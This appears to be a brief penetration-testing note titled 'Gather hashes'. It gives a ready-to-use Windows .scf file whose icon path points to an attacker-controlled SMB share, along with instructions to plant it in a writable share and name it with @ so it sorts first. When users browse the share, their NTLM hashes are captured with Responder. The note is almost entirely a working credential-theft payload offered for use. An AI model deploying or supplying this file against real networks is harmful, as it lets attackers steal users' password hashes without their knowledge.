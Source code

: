 # Gather hashes
```scf
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```


Put this file as test.scf in any writeable share and when user open the share you will get hit in responder. You can add @ to the file like @test.scf and the file will apear first in share.
